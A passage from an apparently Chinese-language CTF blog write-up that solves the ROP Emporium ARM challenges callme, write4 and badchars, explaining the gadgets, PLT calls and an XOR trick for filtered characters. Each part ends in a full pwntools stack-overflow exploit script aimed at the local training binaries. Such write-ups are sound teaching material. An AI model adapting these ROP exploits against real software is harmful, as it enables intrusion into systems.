









3. callme
本题有多个文件，根据题意来看是需要依次调用callme_one、callme_two、callme_three这3个库函数。这三个函数会进行flag的解密，但是需要满足前三个参数等于特定值。这就需要我们去elf文件中寻找合适的gadget了。

而本题正好给出了一个不能再合适的gadget，因为本题的考点就在这里：

因此思路就很简单了，直接重复调用这个gadget修改前3个寄存器的值，再分别调用三个callme函数即可。
这里需要注意的是，elf文件中虽然给出了一个可以调用3个库函数的函数，能够填充got表，但由于ROP只能写入已知地址，如果写入的是got表的地址，那么程序就会将got表地址当做指令地址来执行，这显然是不对的，少了一层解引用。因此我们需要使用plt表进行利用。和x86架构下的利用相同，如果要使用plt表进行利用，需要注意返回地址的设置。如果plt地址卸载栈上地址值为a的地方，ROP到此，返回地址应该为a-8，且返回后SP指向a+8处。因此，我们需要在callme_one函数的plt地址前面写下一个ROP导向地址。
因此我们可以直接在这里写useful_gadget的地址，在callme_one后面直接写三个参数，然后再调用下一个库函数，以此类推。
exp：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./callme_armv5')
io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './callme_armv5'])
useful_gadget = 0x10870
pop_out = 0x108dc
payload = cyclic(0x24)
payload += p32(useful_gadget)
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_one'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(useful_gadget) + p32(elf.plt['callme_two'])
payload += p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)
payload += p32(pop_out) + p32(elf.plt['callme_three'])
io.sendlineafter(b'> ', payload)
io.interactive()
|

4. write4
本题的pwnme和print_file函数都写在了库函数中，但观察elf文件可以发现有两个gadget：

其中第一个为任一地址写指令，第二个可以用作ROP的gadget。考虑到print_file函数需要传入一个字符串参数作为打开的文件，我们需要将flag.txt写到一个特定的地方，然后使用第二个gadget即可传参。

和x86的本题不同，这里的bss段太小，无法写入，因此尝试写入到data段。

exp：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
| from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./write4_armv5')
io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './write4_armv5'])
write_addr = 0x21024
write_gadget = 0x105ec
pop_r0pc = 0x105f4
pop_r3r4pc = 0x105f0
payload = cyclic(0x24)
payload += p32(pop_r3r4pc) + b'flag' + p32(write_addr)
payload += p32(write_gadget) + b'.txt' + p32(write_addr + 4);
payload += p32(write_gadget) + p32(0) * 2
payload += p32(pop_r0pc) + p32(write_addr) + p32(elf.plt['print_file'])
io.sendlineafter(b'> ', payload)
io.interactive()
|

5. badchars
本题的pwnme中栈溢出过滤了4个字符：x、g、a、.，因此需要利用elf中的gadget。我们看一下都有什么gadget。

第一段gadget：[R5]=[R5]-R6; 赋值R0
第二段gadget：[R5]=[R5]+R6; 赋值R0
第三段gadget：[R4]=R3; 赋值R5和R6
第四段gadget：[R5]=[R5]^R6; 赋值R0
看到了异或操作，我们可以利用这个异或操作在数据区构造出来关键字符。这里的加法、减法和异或操作实际上只需要一个就可以了。我们将字符串写在和上一道题相同的位置。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
| from pwn import *
context.arch='arm'
context.log_level='debug'
elf = ELF('./badchars_armv5')
io = process(['qemu-arm-static', '-L', '/usr/arm-linux-gnueabi', './badchars_armv5'])
gadgets = [0x105f0, 0x10600, 0x10610, 0x10618]
write_addr = 0x21024
payload = p32(write_addr + 12) * (0x2c // 4)
payload += p32(gadgets[2]) + p32(write_addr) + b'fl' + p8(ord('a') ^ 0xFF) + p8(ord('g') ^ 0xFF)
payload += p32(gadgets[1]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr) + p32(0xFFFF0000)
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p8(ord('.') ^ 0xFF) + b't' + p8(ord('x') ^ 0xFF) + b't'
payload += p32(gadgets[3]) + p32(0)
payload += p32(gadgets[2]) + p32(write_addr + 4) + p32(0xFF00FF)
payload += p32(gadgets[3]) + p32(write_addr)
payload += p32(elf.plt['print_file'])
io.sendlineafter(b'> ', payload)
io.interactive()
|
